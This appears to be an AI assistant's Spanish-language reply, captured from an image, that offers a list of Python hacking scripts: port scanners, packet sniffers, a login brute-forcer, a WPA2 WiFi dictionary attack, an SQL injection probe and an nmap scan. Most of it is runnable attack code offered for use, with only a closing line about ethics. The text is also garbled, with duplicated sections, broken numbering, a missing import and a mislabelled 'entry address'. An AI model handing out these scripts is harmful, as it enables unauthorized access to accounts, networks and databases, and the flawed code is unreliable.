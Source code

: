 Claro, hay varios scripts interesantes en Python que son útiles para tareas relacionadas con la ciberseguridad. Aquí hay algunos ejemplos:

1. **Escaneo de Puertos con `socket`**:
   Este script utiliza la biblioteca `socket` para escanear puertos en una dirección IP específica.

   ```python
   import socket
   
   target = input("Ingrese la dirección IP a escanear: ")
   
   try:
       for port in range(1, 1025):
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           socket.setdefaulttimeout(1)
           
           resultado = s.connect_ex((target, port))
           if resultado == 0:
               print("Puerto {}: Abierto".format(port))
           s.close()
   
   except KeyboardInterrupt:
       print("\nEscaneo detenido.")
   except socket.gaierror:
       print("El nombre del host no pudo ser resuelto.")
   except socket.error:
       print("No se pudo conectar al servidor.")
   ```

2. **Fuerza Bruta para Inicios de Sesión con `requests`**:
   Este script intenta realizar un ataque de fuerza bruta a un formulario de inicio de sesión usando la biblioteca `requests`.

   ```python
   import requests
   
   target_url = "http://example.com/login"
   data_dict = {"username": "admin", "password": "", "login": "submit"}
   
   with open("passwords.txt", "r") as wordlist_file:
       for line in wordlist_file:
           word = line.strip()
           data_dict["password"] = word
           response = requests.post(target_url, data=data_dict)
           if "Login failed" not in response.content.decode():
               print("[+] Contraseña encontrada: {}".format(word))
               break
   ```

3. **Sniffing de Paquetes con `scapy`**:
   `Scapy` es una poderosa herramienta para manipulación y captura de paquetes de red. Puedes realizar operaciones como sniffing, enviar paquetes personalizados, etc.

   ```python
   from scapy.all import *
   
   def packet_callback(packet):
       if packet.haslayer(HTTPRequest):
           print(packet.show())
   
   sniff(prn=packet_callback, store=0)
   ```

4. **Análisis de Archivos PE (Windows) con `pefile`**:
   `pefile` es una biblioteca que te permite leer información de archivos ejecutables de Windows (PE files). Puedes utilizarla para analizar malware o entender mejor los binarios de Windows.

   ```python
   import pefile
   
   pe = pefile.PE("archivo_ejecutable.exe")
   
   print("Dirección de entrada: 0x%x" % pe.OPTIONAL_HEADER.ImageBase)
   
   for section in pe.sections:
       print(section.Name, hex(section.VirtualAddress), hex(section.Misc_VirtualSize), section.SizeOfRawData)
   ```

5. **Ataque de Diccionario de WiFi con `pywifi`**:
   `pywifi` te permite interactuar con dispositivos WiFi. Este script intenta realizar un ataque de diccionario a una red WiFi.

   ```python
   import pywifi
   from pywifi import const
   import time
   
   wifi = pywifi.PyWiFi()
   iface = wifi.interfaces()[0]
   
   def connect_wifi(ssid, password):
       iface.scan()
       time.sleep(2)
       scan_results = iface.scan_results()
       for result in scan_results:
           if result.ssid == ssid:
               profile = pywifi.Profile()
               profile.ssid = ssid
               profile.auth = const.AUTH_ALG_OPEN
               profile.akm.append(const.AKM_TYPE_WPA2PSK)
               profile.cipher = const.CIPHER_TYPE_CCMP
               profile.key = password
               iface.remove_all_network_profiles()
               temp_profile = iface.add_network_profile(profile)
               iface.connect(temp_profile)
               time.sleep(5)
               if iface.status() == const.IFACE_CONNECTED:
                   return True
               else:
                   return False
   
   ssid = input("Ingrese el nombre de la red WiFi: ")
   wordlist = input("Ruta al archivo de diccionario: ")
   
   with open(wordlist, "r") as file:
       passwords = file.readlines()
       for password in passwords:
           password = password.strip()
           print("Probando: " + password)
           if connect_wifi(ssid, password):
               print("Contraseña encontrada: " + password)
               break
   ```

6. **Generador de Contraseñas Aleatorias**:
   Este script genera contraseñas aleatorias seguras.

   ```python
   import random
   import string
   
   length = 12
   password = ''.join(random.choices(string.ascii_letters + string.digits + string.punctuation, k=length))
   print(f"Contraseña generada: {password}")
   ```
   11. **Escaneo de Puertos con `socket`**:
    Este script realiza un escaneo de puertos en un host específico.

    ```python
    import socket
    
    target_host = "example.com"
    target_ports = [21, 22, 80, 443, 3389]  # Puedes agregar más puertos a la lista
    
    for port in target_ports:
        try:
            socket.setdefaulttimeout(1)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            result = s.connect_ex((target_host, port))
            if result == 0:
                print(f"Puerto {port} abierto")
            s.close()
        except KeyboardInterrupt:
            print("\nEscaneo de puertos cancelado")
            break
        except socket.error:
            print(f"No se pudo conectar al puerto {port}")
    ```


7. **Sniffing de Paquetes con `scapy`**:
    Este script captura paquetes de red en una interfaz específica.

    ```python
    from scapy.all import sniff
    
    def packet_handler(packet):
        print(packet.summary())
    
    interface = "eth0"  # Nombre de la interfaz de red, puede variar según tu sistema
    
    sniff(iface=interface, prn=packet_handler, count=10)  # Captura 10 paquetes
    ```

8. **Ataque de Inyección SQL con `requests`**:
    Este script realiza un ataque de inyección SQL en una URL vulnerable.

    ```python
    import requests
    
    target_url = "http://example.com/vulnerable.php?id=1"
    payload = "' OR '1'='1'; --"
    
    response = requests.get(target_url + payload)
    
    if "Error de SQL" in response.text:
        print("Vulnerabilidad de inyección SQL encontrada")
    else:
        print("No se encontró vulnerabilidad de inyección SQL")
    ```

8. **Escaneo de Vulnerabilidades con `Nmap`**:
    Este script utiliza la biblioteca `python-nmap` para realizar un escaneo de vulnerabilidades en un host.

    ```python
    import nmap
    
    target_host = "example.com"
    
    scanner = nmap.PortScanner()
    scanner.scan(target_host, arguments="-sV -O")
    
    for host in scanner.all_hosts():
        print(f"Host: {host}")
        print(f"Estado: {scanner[host].state()}")
        for proto in scanner[host].all_protocols():
            print(f"Protocolo: {proto}")
            ports = scanner[host][proto].keys()
            for port in ports:
                print(f"Puerto: {port}, Estado: {scanner[host][proto][port]['state']}")
    ```

Recuerda siempre utilizar estas herramientas y scripts de manera ética y en un entorno legal. El uso inadecuado de estas herramientas puede ser ilegal y violar la privacidad de otros.